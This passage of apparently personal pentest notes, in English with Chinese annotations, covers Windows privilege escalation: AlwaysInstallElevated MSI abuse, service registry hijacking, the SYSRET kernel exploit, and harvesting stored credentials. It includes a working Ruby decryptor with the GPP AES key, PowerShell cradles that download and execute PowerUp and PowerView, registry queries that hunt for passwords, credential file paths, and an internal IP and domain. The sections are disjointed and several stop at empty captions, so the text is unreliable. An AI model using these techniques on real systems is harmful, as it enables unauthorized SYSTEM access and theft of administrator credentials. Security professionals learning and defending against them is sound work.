there are some major vendors that still release application configured that way.
Additionally it should be noted that in internal penetration tests a lot of
custom applications are vulnerable to this issue and it is always a good
practice to check for them.

So in order to be able to successfully exploit this issue for privilege
escalation the following requirements needs to be in place into the target host:

>   An application executable that is not enclosed in quote tags

>   The application needs to run under the privileges of SYSTEM

>   Users should have Write access in one of the directories of the original
>   binary path

>   Users should be able to restart the service

**ATT&CK: Privilege Escalation-7).Always Install Elevated策略**

Windows environments provide a group policy setting which allows a regular user
to install a Microsoft Windows Installer Package (MSI) with system privileges.
This can be discovered in environments where a standard user wants to install an
application which requires system privileges and the administrator would like to
avoid to give temporary local administrator access to a user.

From the security point of view this can be abused by an attacker in order to
escalate his privileges to the box to SYSTEM.

To install a package with elevated (system) privileges, set the
AlwaysInstallElevated value to "1" under both of the following registry keys:

>   HKEY_CURRENT_USER\\Software\\Policies\\Microsoft\\Windows\\Installer

>   HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows\\Installer

If the AlwaysInstallElevated value is not set to "1" under both of the preceding
registry keys, the installer uses elevated privileges to install managed
applications and uses the current user's privilege level for unmanaged
applications.

Computer Configuration\\Administrative Templates\\Windows Components\\Windows
Installer

User Configuration\\Administrative Templates\\Windows Components\\Windows
Installer

Identification

Privilege Escalation with Metasploit

The easiest and the fastest way to escalate privileges is via the Metasploit
Framework which contains a module that can generate an MSI package with a simple
payload that it will be executed as SYSTEM on the target host and it will be
removed automatically to prevent the installation of being registered with the
operating system.

Generate MSI Package with PowerSploit

PowerSploit framework contains a script that can discover whether this issue
exist on the host by checking the registry entries and another one that can
generate an MSI file that will add a user account into the local administrators
group.

总结

In order to mitigate this issue the following settings should be disabled from
the GPO:

gpedit.msc

Computer Configuration\\Administrative Templates\\Windows Components\\Windows
Installer

User Configuration\\Administrative Templates\\Windows Components\\Windows
Installer

**ATT&CK: Privilege Escalation-8).Insecure Registry Permissions**

In Windows environments when a service is registered with the system a new key
is created in the registry which contains the binary path. Even though that this
escalation vector is not very common due to the fact that write access to the
services registry key is granted only to Administrators by default however it
should not be omitted by the penetration tester as another possible check.

The process of privilege escalation via insecure registry permissions is very
simple. Registry keys for the services that are running on the system can be
found in the following registry path:

HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\services

If a standard user has permissions to modify the registry key “ImagePath” which
contains the path to the application binary then he could escalate privileges to
system as the service is running under these privileges.

The next time that the service will restart, the custom payload will be executed
instead of the service binary and it will return back a Meterpreter session as
SYSTEM.

30s后meterpreter会话死掉

应对措施

**ATT&CK: Privilege Escalation-9).Intel SYSRET**

This vulnerability allows an attacker to execute code to the kernel (ring0) due
to the difference in implementation between processors AMD and Intel. For
example an operating system that it is written according to AMD specifications
but runs on an Intel hardware is vulnerable. Since the attacker can execute code
into the kernel it could allow him to escalate his privileges from user level to
system.

Windows environments are vulnerable due to the way that the Windows User Mode
Scheduler is handling system requests. This issue affects 64-bit versions of
Windows 2008 and Windows 7 that are running on an Intel chip.

https://github.com/shjalayeri/sysret/tree/master/x64/Release

The shellcode disables kernel Code Signing and will grant NT SYSTEM privilege to
specified Application or already running process (PID). exploit successfully
tested on Windows 7 SP0/1 (x64) and Windows 2008 R2 SP1 (x64).

Metasploit

Windows

Alternatively if the user has physical access to the system or via RDP it can
use the following procedure in order to escalate his privileges.

The first step is to obtain the list of running processes and their associated
PID’s.

The explorer.exe is the ideal process to be used for hooking.

Running the binary sysret.exe with the -pid parameter it will execute the
shellcode into the kernel bypassing kernel code signing.

无法结束sysret.exe进程，结束当前conhost.exe可关闭cmd窗口，但仍具备高权限身份

**\#5). 存储凭据:**

**ATT&CK: Privilege Escalation-5).存储凭证**

**Stored Credentials:**

When an attacker has managed to gain access on a system one of his first moves
is to search the entire system in order to discover credentials for the local
administrator account which it will allow him to fully compromise the box. This
is of course the easiest method of escalating privileges in a Windows system and
the purpose of this article is to examine some common places of where these
credentials might exist in order to assist with this process.

Windows Files

It is very common for administrators to use Windows Deployment Services in order
to create an image of a Windows operating system and deploy this image in
various systems through the network. This is called unattended installation. The
problem with unattended installations is that the local administrator password
is stored in various locations either in plaintext or as Base-64 encoded. These
locations are:

>   C:\\unattend.xml

>   C:\\Windows\\Panther\\Unattend.xml

>   C:\\Windows\\Panther\\Unattend\\Unattend.xml

>   C:\\Windows\\system32\\sysprep.inf

>   C:\\Windows\\system32\\sysprep\\sysprep.xml

There is a Metasploit module which can discover credentials via unattended
installations:

post/windows/gather/enum_unattend

If the system is running an IIS web server the web.config file should be checked
as it might contain the administrator password in plaintext. The location of
this file is usually in the following directories:

>   C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Config\\web.config

>   C:\\inetpub\\wwwroot\\web.config

Local administrators passwords can also retrieved via the Group Policy
Preferences. The Groups.xml file which contains the password is cached locally
or it can be obtained from the domain controller as every domain user has read
access to this file. The password is in an encrypted form but Microsoft has
published the key and it can be decrypted.

本地缓存路径:

>   C:\\ProgramData\\Microsoft\\Group
>   Policy\\History\\{82B0D362-B6AE-4E55-993C-DDAE82C90DAF}\\S-1-5-21-1652394361-3121681844-3193423207-1112\\Preferences\\Groups

域控上路径:

>   \\\\10.95.14.222\\sysvol\\difang.com\\Policies\\{82B0D362-B6AE-4E55-993C-DDAE82C90DAF}\\User\\Preferences\\Groups\\Groups.xml

**Group Policy Preferences:**

Group policy preferences allows domain admins to create and deploy across the
domain local users and local administrators accounts. This feature was
introduced in Windows 2008 Server however it can be abused by an attacker since
the credentials of these accounts are stored encrypted and the public key is
published by Microsoft. This leaves the door open to any user to retrieve these
files and decrypt the passwords stored in order to elevate access.

These files are stored in a shared directory in the domain controller and any
authenticated user in the domain has read access to these files since it is
needed in order to obtain group policy updates.

The static key which can decrypt passwords stored in Group Policy Preferences
can be seen below:

Manual Exploitation

In order to exploit this issue manually it is needed to manually browse to the
Groups.xml file which is stored in a shared directory in the domain controller
and obtain the value of the attribute cpassword. CVE-2014-1812 KB2962486

重新登录域内机器(域管):

重新登录域内机器(普通域用户):

https://bitbucket.org/grimhacker/gpppfinder/downloads/gp3finder_v4.0.exe

ruby script for decrypting cpassword values:

require 'rubygems'

require 'openssl'

require 'base64'

encrypted_data = "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"

def decrypt(encrypted_data)

padding = "=" \* (4 - (encrypted_data.length % 4))

epassword = "\#{encrypted_data}\#{padding}"

decoded = Base64.decode64(epassword)

key = "\\x4e\\x99\\x06\\xe8\\xfc\\xb6\\x6c\\xc9\\xfa\\xf4\\x93\\x10\\x62\\

x0f\\xfe\\xe8\\xf4\\x96\\xe8\\x06\\xcc\\x05\\x79\\x90\\x20\\x9b\\x09\\xa4\\

x33\\xb6\\x6c\\x1b"

aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")

aes.decrypt

aes.key = key

plaintext = aes.update(decoded)

plaintext \<\< aes.final

pass = plaintext.unpack('v\*').pack('C\*') \# UNICODE conversion

return pass

end

blah = decrypt(encrypted_data)

puts blah

Metasploit

Decrypting passwords that are stored in the Group Policy Preferences can be done
automatically though Metaasploit. The following post exploitation module will
obtain and decrypt the cPassword from the Groups.xml file which is stored in the
SYSVOL.

post/windows/gather/credentials/gpp

Since domain administrators can set up local administrators accounts through the
Group Policy this can lead to privilege escalation. These credentials can be
used with the PsExec Metasploit module in order to successfully login to the
workstation as SYSTEM.

PowerSploit

Alternatively the same results can be achieved through PowerSploit. There are
two modules which can obtain and decrypt the cPassword from the Groups.xml file
either locally or directly from the domain controller.

Get-CachedGPPPassword //For locally stored GP Files

Get-GPPPassword //For GP Files stored in the DC

PowerShell via Metasploit

As there are many PowerShell scripts that can be used for post exploitation it
is possible to use Metasploit in order to inject a PowerShell payload into a
specific process. This could allow the execution of PowerShell scripts directly
from memory.

Then from the interactive PowerShell session the Invoke-Expression cmdlet could
be utilized in order to drop and execute any PowerShell script that is locally
hosted.

IEX(New-Object Net.WebClient).DownloadString("http://x.x.x.x/PowerUp.ps1")

IEX(New-Object Net.WebClient).DownloadString("http://x.x.x.x/PowerView.ps1")

Except of the Group.xml file the cpassword attribute can be found in other
policy preference files as well such as:

>   Services\\Services.xml

>   ScheduledTasks\\ScheduledTasks.xml

>   Printers\\Printers.xml

>   Drives\\Drives.xml

>   DataSources\\DataSources.xml

Commands

Instead of manually browsing all the files in the system it is also possible to
run the following command in order to discover files that contain the word
password:

Third Party Software

McAfee:

Most Windows systems they are running McAfee as their endpoint protection. The
password is stored encrypted in the SiteList.xml file:

%AllUsersProfile%Application Data\\McAfee\\Common Framework\\SiteList.xml

VNC:

Administrators some times tend to use VNC software instead of Windows Terminal
Services for remote administration of the system. The password is encrypted but
there are various tools that can decrypt it.

UltraVNC

>   [ultravnc]

>   passwd=5FAEBBD0EF0A2413

RealVNC

In RealVNC the hashed password is located in the following registry key:

>   reg query HKEY_LOCAL_MACHINE\\SOFTWARE\\RealVNC\\WinVNC4 /v password

Putty:

Putty clear text proxy credentials can be found in the following directory:

reg query "HKCU\\Software\\SimonTatham\\PuTTY\\Sessions"

Registry:

Registry can be queried as in some occasions might contain credentials.

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

Windows Autologin:

reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon"

SNMP Parameters:

reg query "HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP"

PowerSploit

PowerSploit can be used as a tool for the discovery of stored credentials.
Specifically it supports the following modules which will check for credentials
encrypted or plain-text in various files and in the registry:

Get-UnattendedInstallFile

Get-Webconfig

Get-ApplicationHost

Get-SiteListPassword

Get-CachedGPPPassword

Get-RegistryAutoLogon
